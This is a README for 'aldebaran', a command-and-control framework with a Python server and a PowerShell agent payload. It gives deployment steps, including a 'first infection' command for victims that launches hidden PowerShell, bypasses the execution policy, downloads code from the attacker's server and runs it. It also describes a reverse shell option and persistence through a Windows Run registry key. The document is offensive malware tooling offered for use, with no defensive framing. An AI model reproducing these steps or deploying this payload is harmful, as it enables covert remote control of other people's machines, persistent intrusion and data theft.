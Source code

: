# aldebaran

Python3 C2 server and agent payload.

Uses HTTP protocol with check-in. Works in env with powershell constrained language mode.

Agent code can be delivered as in memory only or as is e.g in a hta file.

darma is the server side code in python3

darpa is the agent side code in powershell

# Installation

## Requirements
Install requirements with pip3
```pip3 install -r requirements.txt```


## Certificates
You will have to create valid https certs.
Self signed certs wont work with powershell. will lose constrainedlanguagemode support to ignore ssl errors so use letsencrypt

use ```certbot certonly --manual -d www.your_domain.com --register-unsafely-without-email ```
and copy certs in "darma/certificates/" and/or adjust config.py to point to them
letsencrypt stores certs in /etc/letsencrypt/live/$domain


## Change domain in config.py to match the ones of the certificates

Change payload to point to your server url
## Change domain in :
```
darpa/main.ps1
darpa/oneline.ps1
darpa/pers.ps1

darma/rev.txt
```

## Change password of c2 server
Change bcrpyt hash in "darma/config.py" with

```
#Python3
# To generate hash
# Mind the '\n'
password = b"super secret password\n"
hashed = bcrypt.hashpw(password, bcrypt.gensalt())
print(hashed)
```
## Serverside
To start server:

```
python3 darma/main.py
```
## Victim
Run agent on victim


## Attacker machine
Connect to server with netcat on port 51251 with attackers machine

```
nc ip_of_server 51251
```

enter password and menu will pop up

## Logging
If deamonized, logging can be found @ ```/var/log/aldebaran.log```

## First infection

Run the following command on victim in 'run' (win+r)

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c "$command = iwr -Uri https://www.your_domain.com/ -Method GET  -UseBasicParsing; iex $command"
```
## Reverese shell
Change the ip and port in darma/resources/rev.txt to make the reverse shell option work

## Persistence

When the victim checks in for the first time, an entry in ```HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``` will be added that downloads the oneliner version of the payload

## TODO
### Install script
